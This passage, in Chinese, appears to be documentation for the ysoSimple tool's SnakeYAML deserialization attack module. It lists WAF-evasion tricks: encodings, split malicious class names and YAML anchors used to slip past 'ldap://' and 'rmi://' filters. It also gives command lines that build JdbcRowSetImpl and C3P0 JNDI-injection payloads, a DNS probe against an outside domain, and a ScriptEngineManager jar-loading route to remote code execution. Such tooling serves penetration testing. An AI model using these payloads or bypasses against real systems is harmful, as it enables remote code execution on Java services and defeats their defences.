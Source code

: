 4. 多种方式集合绕WAF，学习自：[spel注入和snakeyaml反序列化waf bypass trick](https://liotree.github.io/2025/02/09/spel%E6%B3%A8%E5%85%A5%E5%92%8Csnakeyaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96waf%20bypass%20trick/)

1. 双引号中可以使用unicode和hex编码
2. 标签（也就是类名）的位置可以多一层url编码
3. 通过标签的拼接避免`!!`的使用以及拆分恶意类名，这个是[SnakeYaml 反序列化的一个小 trick](https://mp.weixin.qq.com/s/2i6Q9Ob7n0cSxuj9Rob8Uw#at)
4. 利用多个`java.lang.Character`构造`com.sun.xml.internal.fastinfoset.util.CharArray`，再实例化`java.lang.StringBuilder`和`java.lang.String`，达到拆分字符串的效果。但是这种组合而成sequence不能用在key的位置（也就是属性名），只能用在具体属性值的地方，可以用来绕过一些对`ldap://` `rmi://`的检测。
5. 一些waf的检测规则会指定不同字段之间顺序，可以使用yaml的alias和anchor功能（`&`和`*`）来改变顺序。

工具：对于多种方式绕waf，目前ysoSimple工具集成前4个。MixObf模式适配Payload比较好的是下面四个。其余Payload适配的不太好，后面有时间再修改

```bash
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/" -waf-bypass "MixObf"

-m SnakeYamlAttack -g C3P0_JNDI -a "ldap://127.0.0.1:1389/" -waf-bypass "MixObf"

-m SnakeYamlAttack -g C3P0_Yso -a "FastJson1:Templateslmpl:auto_cmd:calc" -waf-bypass "MixObf"
```

#### 

#### writeToFile 写入到文件

描述：将生成的Payload写入到文件中

工具：writeToFile参数后的参数值是文件名

```java
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/" -writeToFile "/tmp/snakeyaml.txt"
```

### FindClassByDNS

描述：在出网环境下探测Snakeyaml漏洞是否存在或者探测某个Gadgets是否存在。

工具：竖杠前面是类名，后面是dns域名

```bash
-m SnakeYamlAttack -g FindClassByDNS -a "java.lang.String|emdzjnwvao.zaza.eu.org"
```

### JdbcRowSetImpl

描述：使用JDK的JdbcRowSetImpl类来触发JNDI注入

工具：args参数中写jndi的地址

```java
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/"
```

### ScriptEngineManager

描述：使用JavaScript引擎来加载jar包来RCE，jar包的构造参考这个项目：[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)。该SPI攻击手法由于第一次加载后会将类加载到jvm中，所以有漏洞利用需求变化类字节码时要更改类名
